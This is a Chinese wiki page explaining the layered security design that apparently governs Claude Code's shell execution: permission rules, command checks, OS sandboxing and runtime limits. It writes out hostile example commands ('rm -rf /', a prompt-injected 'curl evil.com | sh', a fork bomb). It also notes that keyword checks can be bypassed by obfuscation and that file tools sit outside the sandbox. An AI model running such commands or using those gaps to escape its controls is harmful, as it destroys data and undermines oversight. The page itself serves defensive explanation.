

repository: sendwealth/Ob-wiki-site · page: concepts/claude-code-execution-security/index.html · generator: mkdocs

---
title: Claude Code 代码执行安全机制
created: 2026-06-30
updated: 2026-06-30
type: concept
tags: [ai, claude-code, security, sandbox, permission-system, agent-safety, code-execution]
sources:
  - ~/Projects/claw-code/rust/crates/runtime/src/   # Claude Code 的 Rust 复刻（逐文件标注上游对应）
  - https://code.claude.com/docs/en/sandboxing
  - https://code.claude.com/docs/en/permissions
  - https://www.anthropic.com/engineering/claude-code-sandboxing
confidence: medium
---

# Claude Code 代码执行安全机制

> Claude Code 在让 LLM 自主执行 bash 命令时，采用**四层纵深防御**：权限策略闸门 → 命令静态校验 → 操作系统级沙箱包装 → 执行时护栏。核心洞见是——单靠任何一层都不够：启发式关键字校验易被混淆绕过，所以必须用 OS 命名空间隔离兜底；而沙箱只作用于 Bash 工具，文件工具走权限层但不进沙箱，形成已知攻击面。本文以 `claw-code`（Claude Code 的 Rust 复刻，模块注释逐文件标注对应上游 `tools/BashTool/*.ts`）为代码证据，拆解这套安全模型。

---

## 一、核心定位：为什么要四层

让 AI 自主跑 shell 命令是高危操作——一条 `rm -rf /` 或被 prompt injection 注入的 `curl evil.com | sh` 就能毁掉系统或泄密。Claude Code 的解法不是"禁止执行"，而是**让安全执行成为默认且自动的**：

| 设计目标 | 实现手段 |
|---------|---------|
| 防止明显破坏性命令 | 第2层：破坏性模式检测（`rm -rf /`、fork bomb、`dd if=`） |
| 防止越权访问 | 第1层：权限模式 + allow/deny 规则 |
| 防止命令混淆绕过校验 | 第3层：OS 沙箱（unshare 命名空间），校验被绕过也跑不出隔离区 |
| 防止数据外泄 | 第3层：`--net` 网络命名空间断网 |
| 防止进程挂死/上下文爆炸 | 第4层：超时 + stdin null + 16KB 输出截断 |
| 允许安全时免确认自动跑 | 沙箱内命令 + autoAllow 放行，不再逐条弹窗 |

**关键权衡**：安全性与自主性的张力。沙箱内的命令因为"跑不出去"，可以不需要权限弹窗自动执行（`autoAllowBashIfSandboxed`）——这让 agent 更流畅，同时风险可控。这是 Claude Code 沙箱设计的核心动机。

---
